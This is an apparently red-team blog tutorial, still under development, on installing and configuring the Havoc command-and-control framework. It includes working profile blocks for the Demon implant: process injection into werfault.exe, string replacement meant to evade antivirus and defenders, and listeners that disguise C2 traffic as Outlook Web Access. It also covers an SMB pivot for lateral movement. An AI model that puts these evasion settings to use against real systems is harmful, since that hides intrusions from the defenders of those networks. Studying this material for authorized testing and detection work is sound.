





## under development
[back to blog](../blog.md)


The post will focus on Havoc C2.

* [Getting started](#havoc-installation)
  * [Teamserver](#team-server)
  * [client](#client)
* [Profile configuration](#profile-configuration)
  * [base profile](#base-profile)
  * [Demon block](#demon-block)
    * [Injection](#injection)
    * [Replace strings](#replace-strings)
    * [sleep and jitter](#sleep-and-jitter)
  * [Listeners block](#listeners-block)
    * [HTTP/HTTPS block](#httphttps-block)
    * [SMB block](#smb-block)
  * [Teamserver block](#teamserver-block)
  * [Operators block](#operators-block)
* [Beacon Object Files](../BOF/intro.md)
* [Infra setup](Infrastructure-setup.md)

## Havoc installation

Follow the installation on the official wiki. [Havoc wiki installation](https://havocframework.com/docs/installation).

Or in kali you can use apt install havoc. [Havoc repo kali](https://www.kali.org/tools/havoc/). `version: 0.6~git20240910.69ce17c arch: amd64`

```bash
kali> havoc                                                      
Command 'havoc' not found, but can be installed with:
sudo apt install havoc
Do you want to install it? (N/y)
```

After installing we got our team server and client.

## Team server

```bash
havoc --help
Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]

Usage:
  havoc [flags]
  havoc [command]

Available Commands:
  client      client command
  help        Help about any command
  server      teamserver command

Flags:
  -h, --help   help for havoc

Use "havoc [command] --help" for more information about a command.
```

The team server is the core part in all C2, this is where you generate your payload, set up listeners, interacts with agents and etc.
[Team server](https://havocframework.com/docs/teamserver)

Ideally the team server should be located/placed locally and should not expose any port in the internet/publicly. This helps ensuring that the C2 server is safe from threat actors, BOTS and etc. Another considerisation should be noted is that the server where you install the C2 teamserver should be fully patched, follows best practice and security hygiene just to ensure the it is hardened.

(Optional) As for experiment you could try getting a VPS, use virustotal to check the IP and observe. Then install metasploit or any C2 and then create a listener. Wait for a few days and observe that the IP reputation of the IP/domain would be malicious, bots are also trying to connect on the exposed port and exploiting it.

## Client

The havoc client is used for connecting into the C2 server. Each operator can connect to the server as long as it reach the connection port for the C2. The client also provide a GUI for the operator to interact with the C2 functionalities. [Havoc client](https://havocframework.com/docs/client)



## Profile configuration

Creating profile is one of the most important thing in C2, this allows the operator to have malleability in C2, allowing them to customize the user agent, headers and etc. to blend in the network, set the behavious of the payload like where it injects, set the section to RWX false, remove strings and many more. [havoc profile](https://havocframework.com/docs/profiles)

Unfortunately in havoc c2 (community), just adding the community word here because there is an upcoming havoc pro and it's not released yet as the time of writing. So going back, in havoc c2 only offers a couple of modification you could do on the payload and other functionalities unlike in cobalt strike you have a wide range of stuffs you could use such as

Preventing the use of RWX when the payload gets executed, have obfuscate and cleanup, have a smart inject and many more. TLDR CS profile have a configuration for stage, post exploitation, process injection, and etc. [CS profile](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_main.htm)

If you want to know more about the profile you can check out these blogs from WhiteKnightLabs (WKL), I will be also adding some parts I learned there in our profile so it's good to have a read of it.

* https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/
* https://whiteknightlabs.com/2025/05/19/harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion-part-2/

So for now we will start first, by using the havoc profile generator to get a base profile and then moving forward we will be editing the parts of it. [Havoc profile generator](https://github.com/Ghost53574/havoc_profile_generator)

```bash
git clone https://github.com/Ghost53574/havoc_profile_generator

cd havoc_profile_generator
pip3 install -r requirements.txt
```

## Base profile

```bash
python3 havoc_profile_generator.py -h
usage: Havoc profile generator [-h] [-c CONFIG] [-r READ] [-l [LIST]] [-s [SYSNATIVE]] [-a ARCH] [-p PROFILE] [-H HOST] [-S HOSTS] [-P PORT] [-L LISTENERS] [-E [EVASION]] [-M MPORTS] [-o OUTFILE] [-q [QUIET]]

Generate havoc c2 profiles with ease and randomness

options:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Config file to use, don' use a conifg file for a completely random profile
  -r READ, --read READ  Directory to read CS profiles from
  -l [LIST], --list [LIST]
                        List supported profiles
  -s [SYSNATIVE], --sysnative [SYSNATIVE]
                        Only support sysnative for spawn to
  -a ARCH, --arch ARCH  Selected architecture between x86, x64 & x86_64
  -p PROFILE, --profile PROFILE
                        Select a traffic profile
  -H HOST, --host HOST  The listeners ip
  -S HOSTS, --hosts HOSTS
                        The hosts array in the form of 10.0.0.1,10.0.0.2
  -P PORT, --port PORT  Set the port for listeners to listen on
  -L LISTENERS, --listeners LISTENERS
                        Set the port for listeners to listen on
  -E [EVASION], --evasion [EVASION]
                        Set beacon defaults to be more evasive
  -M MPORTS, --mports MPORTS
                        Set's the min port and max port for randomization
  -o OUTFILE, --outfile OUTFILE
                        Output file of the final Havoc C2 pofile
  -q [QUIET], --quiet [QUIET]
                        Do not show banner

```

You can use the same command as below or use your own preffered command. This will generate the havoc profile.

```bash
python3 havoc_profile_generator.py -E -S 192.168.56.101 -o test.profile
```

after generating the profile rerun the server and connect to it. The code snippet below shows how to start the teamserver with the newly generated profile

```bash
havoc server --profile profiles/test.profile --debug
```


For the meantime generate a payload and ensure that everything works fine. If you receive an error **"[-] Injection Spawn64 is undefined"** ensure that the profile demon block have an injection point or you can add the spawn path when you generate the payload

demon block, note that you must specify which process you need to inject into, inorder to blend into the network. As for example if you choose notepad and calc as injection **are these processes should be making a HTTP/HTTPS request ?**, if not choose a proper process that makes a HTTP/HTTPS request such as edge, chrome or other processes.

## Demon block

### Injection

As shown for the code block below, I used werfault. It makes HTTP/HTTPS requests to Microsoft for error reporting. [werfault microsoft](https://learn.microsoft.com/en-us/answers/questions/2790832/how-to-repair-c-windowssystem32werfault-exe).

The spawn is used for post exploitation modules and injects into either x64 or x86 architecture.

```bash
Demon {
    Sleep  = 47 #47 seconds for checkin
    Jitter = 62 #A randomization percentage applied to the sleep interval
    
    Injection {
     Spawn64 = "C:\\Windows\\System32\\werfault.exe"
     Spawn32 = "C:\\Windows\\SysWOW64\\werfault.exe"
    }
}
```

Generate a test payload and ensure that it compiles the exe.



For the next example I will be using dll payload, because for some reason the generated exe does not contains demon.x64.exe when you run strings on that. 

### Replace strings

As shown from the screenshot below when you run strings on demon.x64.dll it will show the following.

* demon.x64.dll
* Dllmain
* Start

This payload could be easily detected by an AV and blue teamers when they check the strings. Another thing to note here to fully evade the static detection of the AV you must also modify the source code of how it generates the payload.



To remove the strings you can use the following on the profile. The ReplaceStrings-x64 could be use to replace strings into something or just make it blank. The blog from WKL https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/ shows a handful of **strrep** that we could use. We can copy a few of them in our profile and convert it into ReplaceStrings-x64.

Below is just an example of replacing strings and if you want to add more feel free to do, I suggest that add everything that could give some detection.


```bash
#injection block for post exploitation.
Injection {
     Spawn64 = "C:\\Windows\\System32\\werfault.exe"
     Spawn32 = "C:\\Windows\\SysWOW64\\werfault.exe"
    }
#payload generated block currently it only supports ReplaceStrings-x64 to remove some sigs such as demon.x64.exe
    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "demon.x64.exe": "",
            "DllMain":"",
            "Start":"",
            "demon": "",
            ".x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }

        ReplaceStrings-x86 = {
            "demon.x86.dll": "",
            "demon.x86.exe": "",
            "demon": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
```

Save the new profile and rerun the server. Generate the payload and run strings again, we can see that theres a difference and it removes what we want to. I highly suggest to add more replace strings similar on the blog of whiteknightlabs to have more a bit of stealthiness. 



Generate a new payload, execute it on a windows test server and ensure that it still works whenever you do something in the profile.

### sleep and jitter
If you have notice we have sleep and jitter on the profile when we generate it. [havoc profile documentation](https://havocframework.com/docs/profiles)

| Field | Description 
| -------- | -------- 
| Sleep | The baseline time that the agent/implant waits between contacting the C2 server. For example if sleep is set to 60, the Demon will check in every 60 seconds.
| Jitter | A randomization percentage applied to the sleep interval, to avoid predictable agent/implant patterns. When the sleep is set to 60 and the jitter to 20, the actual check in interval will randomly vary between 48 and 72 seconds (20%), making it harder for defenders to fingerprint fixed agent/implant intervals.


## Listeners block

The generated profile, gives the Listener block below. There's a lot of parameters here but generally some of it are self explanatory. Another thing that I will highly suggest is to change the values of the headers like the cookies, response and etc. As it may be signatured and could be easily detected. It's ideally good to always create your own.

```bash
Listeners { #listeners block
    Http { # port 80
        Name         = "Agent Listener - HTTP"
        KillDate     = "2026-03-28 08:14:20"
        WorkingHours = "0:00-23:59"
        Hosts        =  ["192.168.56.101"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     =  80
        Secure       =  false
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
        Uris         =  ["/owa/", "/OWA/"]
        Headers      =  ["Host: www.outlook.live.com", "Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"]

        Response { # response of the server
            Headers  = ["Cache-Control: no-cache", "Pragma: no-cache", "Content-Type: text/html; charset=utf-8", "Server: Microsoft-IIS/10.0", "request-id: 6cfcf35d-0680-4853-98c4-b16723708fc9", "X-CalculatedBETarget: BY2PR06MB549.namprd06.prod.outlook.com", "X-Content-Type-Options: nosniff", "X-OWA-Version: 15.1.1240.20", "X-OWA-OWSVersion: V2017_06_15", "X-OWA-MinimumSupportedOWSVersion: V2_6", "X-Frame-Options: SAMEORIGIN", "X-DiagInfo: BY2PR06MB549", "X-UA-Compatible: IE=EmulateIE7", "X-Powered-By: ASP.NET", "X-FEServer: CY4PR02CA0010", "Connection: close"]
        }
    }

    Http { # HTTPS
        Name         = "Agent Listener - HTTP/s"
        KillDate     = "2026-07-07 13:41:49"
        WorkingHours = "0:00-23:59"
        Hosts        =  ["192.168.56.101"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     =  443 # port
        Secure       =  true # Will use SSL
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36" # Useragent used in the HTTP request
        Uris         =  ["/owa/", "/OWA/"] # url path
        Headers      =  ["Host: www.outlook.live.com", "Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"] # headers of the request

        Response {
            Headers  = ["Cache-Control: no-cache", "Pragma: no-cache", "Content-Type: text/html; charset=utf-8", "Server: Microsoft-IIS/10.0", "request-id: 6cfcf35d-0680-4853-98c4-b16723708fc9", "X-CalculatedBETarget: BY2PR06MB549.namprd06.prod.outlook.com", "X-Content-Type-Options: nosniff", "X-OWA-Version: 15.1.1240.20", "X-OWA-OWSVersion: V2017_06_15", "X-OWA-MinimumSupportedOWSVersion: V2_6", "X-Frame-Options: SAMEORIGIN", "X-DiagInfo: BY2PR06MB549", "X-UA-Compatible: IE=EmulateIE7", "X-Powered-By: ASP.NET", "X-FEServer: CY4PR02CA0010", "Connection: close"] # response of the server when it's successful.
        }
    }
    # smb block for pivoting.
    Smb {
        Name         = "Pivot - Smb" # smb listener name
        PipeName     = "gecko.8410.5458.476275831687329289" # named pipe of the SMB
    }
}
```

### HTTP/HTTPS block

* Name - the listener name
* Killdate - if it reach the kill date the agent/demon will terminate itself if it's running.
* Hosts - where the agent will connect to just think of it as a netcat listener, you can also add a domain and port
* Host rotation - cycle through hosts sequentially.
* Secure - will be https and have a cert/tls. Later on we will generate our own SSL cert since this will be needed for the redirector.
* User-agent / headers / Uris - These 3 are important and self explanatory but the main purpose of these 3 are they used to blend into the network traffic and also used for callback. Lets say for example if the headers or Useragent does not match you wont be able to get a callback. You can also use a special header with a value or a special value in a header, this can be utilize for the redirector inorder for them to know that this specific callback is coming from our C2 and not from a bot.
* Cert - You can specify your own SSL configuration, later I will do a walktrough for it.
* Response - if the agent made a successful callback it will show a specific HTTP response you like.

There are a lot more and I will highly suggest to check out the documentation. [Havoc profile](https://havocframework.com/docs/profiles).

### SMB block

* name - the smb listener name.
* Pipename - the SMB pipename it will connects to. Ideally you should change the pipename into a smb looking pipe to blend into the network.

To create a pivot connection you could do `pivot connect <host> <pipe>`. I will be showing an example on how to perform a lateral movement via havoc.

```bash
Smb {
        Name         = "Pivot - Smb" # smb listener name
        PipeName     = "gecko.8410.5458.476275831687329289" # named pipe of SMB
    }
```

## Teamserver block

The teamserver block is pretty much self explanatory here is where the teamserver starts and listen and it's highly recommended to use different port and start the server locally. The build block is used for compiling C and assembly payload. 

```bash
#teamserver config where it runs
Teamserver {
    Host = "127.0.0.1"
    Port = "29229"
    #payload compiler
    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "/usr/bin/i686-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}
```

## Operators block

The operator block is where you specify the authentication to teamserver for each operator. As usualy the password should be strong as well.

```bash
#users
Operators {
    user "christinadeleon" {
        Password = "<REDACTED>"
    }

    user "neo" {
        Password = "<REDACTED>>"
    }
}
```


[back to blog](../blog.md)